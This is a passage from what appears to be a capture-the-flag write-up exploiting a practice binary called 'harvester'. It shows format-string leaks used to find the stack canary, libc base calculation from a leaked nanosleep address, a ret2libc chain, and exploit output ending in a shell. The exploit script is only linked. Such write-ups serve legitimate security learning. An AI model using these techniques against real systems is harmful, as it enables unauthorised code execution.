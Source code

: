 ```
continue
```

Looking at it shows that the offset is not at offset 11 cause its value isn't equal to `0x6da4dbd944578d00`

I'll repeat the same step for offset

```
%15$p
%19$p
%39$p
```

Note that the canary address always changes each time the program runs

After trying it i got that the offset to canary is at offset 19
![image](https://user-images.githubusercontent.com/113513376/222283415-3d5ac62e-3f8a-4fd2-9eed-73745706dc7b.png)
![image](https://user-images.githubusercontent.com/113513376/222283499-11cf4c67-4429-4629-8206-76df50976b6d.png)

Cool now that we know that and we have everything neccessary to craft the exploit 

Lets perform ret2libc. Since initially we leaked the libc address of nanosleep we can now calculate the value of the libc base address

Also note that we need to subtract 35 from the leaked nanosleep address so that we can get to the base address of nanosleep
![image](https://user-images.githubusercontent.com/113513376/222284388-5016701b-a1be-4679-9b8c-fdc10799bc7d.png)

```
pwndbg> x 0x7ffff7e983b3
0x7ffff7e983b3 <__GI___clock_nanosleep+35>:     0x66c3d8f7
pwndbg> x 0x7ffff7e983b3 - 35
0x7ffff7e98390 <__GI___clock_nanosleep>:        0x7403ff83
pwndbg> 
```

With that ready i need a pop_rdi gadget to pop the value of sh in system also i will need a ret address to allign the stack to prevent movaps stack allignment
![image](https://user-images.githubusercontent.com/113513376/222285118-913d17ad-fd9f-4fea-97c0-91b96e7724a1.png)

So here's my exploit script [Exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/practice/harvest_exploit.py)

Running it works 👻

```
┌──(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/harvester]
└─$ python3 exploit.py                                              
[+] Starting local process './harvester': pid 30985
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Canary address: 0x38d5ddbf06eb8b00
[*] Leaked Pie address: 0x555555400f90
[*] Piebase address: 0x555555400000
[*] Leaked nano address: 0x7ffff7e98390
[*] Libc base address 0x7ffff7dc46a0
[*] /bin/sh address 0x7ffff7f5a6d1
[*] System address 0x7ffff7e109d0
[*] Switching to interactive mode
$ ls -al
total 2032
drwxr-xr-x  2 mark mark    4096 Mar  2 00:07 .
```
